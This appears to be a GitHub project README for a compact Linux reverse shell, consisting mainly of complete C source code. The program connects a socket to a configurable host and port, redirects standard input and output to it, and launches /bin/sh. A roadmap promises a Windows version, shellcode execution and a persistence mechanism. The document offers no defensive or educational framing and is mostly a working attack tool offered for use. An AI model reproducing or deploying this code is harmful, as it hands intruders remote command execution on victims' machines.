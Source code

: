 # compact_linux_reverse_shell
A compact linux reverse shell written in the C programming language.


### upcoming changes:
- Windows version(on going!)
- adding shellcode execution (with a short & neat guide how to get shellcode without using radare2 or the classical ghidra or metasploit utils)
- persistence mechanism


https://gist.github.com/loneicewolf/8232aad5722e1e7de9d92932b5a01597
```
#include <stdio.h>
#include <unistd.h>
#include <arpa/inet.h>
#define RP 1234
#define RH "127.0.0.1"
#define BIN "/bin/sh"
int main(){
int is = 0;is = socket(AF_INET,SOCK_STREAM,0);
struct  sockaddr_in s1;
s1.sin_family      = AF_INET;
s1.sin_port        = htons(RP);
s1.sin_addr.s_addr = inet_addr(RH);
connect( is,(struct sockaddr *) &s1,sizeof(s1));
for(int i=0;i<3;dup2(is,i),i++);
char * const argv[] = {BIN,NULL};
execve(BIN, argv, NULL);
return 0;}
```
